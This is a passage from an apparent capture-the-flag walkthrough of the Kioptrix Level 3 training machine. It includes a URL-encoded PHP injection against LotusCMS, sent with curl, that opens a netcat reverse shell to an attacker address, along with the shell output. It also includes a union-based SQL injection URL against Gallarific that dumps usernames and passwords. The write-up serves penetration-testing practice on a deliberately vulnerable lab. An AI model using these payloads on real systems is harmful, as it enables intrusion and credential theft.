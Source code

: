 # [](#header-1)Exploitation

As was briefly touched upon in the introduction, the intended path to exploiting Kioptrix Level 3 is via the web applications running on port 80, so we'll focus on the two of those, LotusCMS, and Gallarific.

# [](#header-2)Port 80/Apache

# [](#header-3)LotusCMS

A very quick Google immediately reveals a [metasploit module](https://www.rapid7.com/db/modules/exploit/multi/http/lcms_php_exec) as well as [ruby and bash based versions](https://github.com/Hood3dRob1n/LotusCMS-Exploit) of a remote code execution (RCE) vulnerability in LotusCMS.

Since metasploit is cheating and it's quite a simple exploit, we'll compromise LotusCMS manually:

We'll URL encode the following string: `"page=index');${system('nc -e /bin/sh 192.168.1.30 443')};#""` and send it using `curl`.

`$ curl http://kioptrix3.com/index.php --data "page=index%27%29%3B%24%7Bsystem%28%27nc%20-e%20%2fbin%2fsh%20192.168.1.30%20443%27%29%7D%3B%23%22"`

Annnnnnnnnnnd start up our netcat listener,

`# nc -lvnp 443`

```
listening on [any] 443 ...
connect to [192.168.1.30] from (UNKNOWN) [192.168.1.31] 36465
whoami
www-data
```

Bingpot!

Still feels a bit too easy though so lets see if we can get in via the Gallarific web application instead.

# [](#header-3)Gallarific

Another quick Google search reveals that the `id` parameter in the `gallery.php` file is vulnerable to [SQL injection](https://www.exploit-db.com/exploits/15891) (or SQLi for short).

However if we attempt to exploit the vulnerability with the payload contained in the linked post we receive the following error:

`hXXp://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users--`

```
The used SELECT statements have a different number of columnsCould not select category
```

As you can see in the above URL, we're performing union based SQL injection here, the Union operator can only be used if the original/new queries have the same structure (number and data type of columns) - [source](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql).
